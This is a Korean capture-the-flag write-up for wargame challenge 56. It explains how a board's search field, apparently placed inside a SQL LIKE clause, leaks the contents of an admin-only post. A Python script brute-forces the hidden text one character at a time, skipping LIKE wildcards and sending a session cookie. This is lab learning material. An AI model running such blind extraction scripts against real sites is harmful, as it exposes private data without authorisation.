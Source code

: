 # 56

## 문제

다짜고짜 게시판 같은 폼이 주어졌다. `admin`이 쓴거같은 글은 읽을수가 없고 `guest`가 쓴 글밖에 읽을수 없다.

검색란이 있긴한데...

## 풀이

내가 맞게 푼건지 확신은 안가지만 일단 이렇게 풀었다.

POST로 넘겨주는 `search` 데이터는 쿼리 상에서 `LIKE`문 안에 들어가는 것으로 추정된다. 그래서 `SELECT ~~~ FROM sometable WHERE contents LIKE '%$_POST[search]%'` 이런 쿼리문 안에 들어가서 글의 제목이 아닌 글의 내용을 찾는다. `guest`가 작성한 글의 내용을 검색하면서 이런 생각이 들었다. 아무튼 이렇게 되면 전수조사를 하면 `admin`이 쓴 글이더라 하더라도 글의 내용을 하나하나씩 모으면 내용을 파악할 수 있다. 이를 위해 코드짜서 돌렸다ㅋ

```python
for i in range(100):
    data = "search=" + '_' + keyword
    prereq = urllib.request.Request(url, data=data.encode('utf-8'))
    prereq.add_header("Cookie", cookie)
    preres = str(urllib.request.urlopen(prereq).read())
    if preres.find("<td>admin</td>") == -1:
        print("End :", keyword)
        break

    for c in range(127, 31, -1):
        data = "search=" + chr(c) + keyword 
        req = urllib.request.Request(url, data=data.encode('utf-8'))
        req.add_header("Cookie", cookie)
        res = str(urllib.request.urlopen(req).read())
        if res.find("<td>admin</td>") != -1:
            if c == 37 or c == 38 or c == 95:
                continue
            keyword = chr(c) + keyword
            break
    
    print("Found :", keyword)   
```

하다가 `h`를 검색했는데 분명 `admin`이 쓴 글의 `subject`는 `h`를 포함하지 않고 있었는데 검색이 되니까 `search` 데이터가 `LIKE`문에 들어가게 된다는 사실을 `h`를 검색하면서 알게 되었다. 아무튼 `LIKE`문에서 `%`는 `*` 같은 역할을 하고, `_`는 한 문자 대응이니까 일단 필터링 했다. 그리고 `admin` 글 내용의 끝을 알기위해 `_`+`keyword`를 했을때 나오면 앞에 데이터가 더 있고, 안나오면 데이터 끝 이런식으로 했다. 아몰랑

그렇게 하면 어떤 파일 이름을 추출할 수 있는데 그 파일을 URL에 쳐서 들어가면 클리어~

아직도 푼게 얼떨떨해서 풀이가 좀 근본없어진듯...하다